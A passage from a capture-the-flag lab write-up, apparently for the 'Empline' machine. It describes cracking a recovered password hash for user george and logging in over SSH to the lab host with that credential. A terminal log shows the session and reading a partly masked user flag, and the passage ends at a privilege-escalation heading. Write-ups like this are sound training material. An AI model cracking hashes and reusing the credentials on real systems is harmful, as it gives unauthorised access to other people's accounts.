 
```
Here we got new user hash
let's carck the hash
```

![IMG_20210920_155555](https://user-images.githubusercontent.com/74853138/134024348-f2d8155f-3ccf-4f78-adde-6043f3be29e0.jpg)

>## Port 22
```
after cracking this hash we got a password for george.
let's connect to ssh with tis new credential.
```
## User.txt

```
❯ ssh george@10.10.109.87
The authenticity of host '10.10.109.87 (10.10.109.87)' can't be established.
ECDSA key fingerprint is SHA256:n1VBkoadDagInc43DVI4nN/rdenjZOWjrLxHworrEqk.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.109.87' (ECDSA) to the list of known hosts.
george@10.10.109.87's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-147-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Sep 18 16:18:34 UTC 2021

  System load:  0.0               Processes:           94
  Usage of /:   4.4% of 38.71GB   Users logged in:     0
  Memory usage: 52%               IP address for eth0: 10.10.109.87
  Swap usage:   0%


28 updates can be applied immediately.
7 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

george@empline:~$ ls -lsa
total 20
4 drwxrwx--- 4 george george 4096 Sep 18 16:18 .
4 drwxr-xr-x 4 root   root   4096 Jul 20 19:48 ..
4 drwx------ 2 george george 4096 Sep 18 16:18 .cache
4 drwx------ 3 george george 4096 Sep 18 16:18 .gnupg
4 -rw-r--r-- 1 root   root     33 Jul 20 19:48 user.txt
george@empline:~$ cat user.txt
91cb8[HIDDEN]]b099078e
george@empline:~$ 

```
># Privilege Escalation
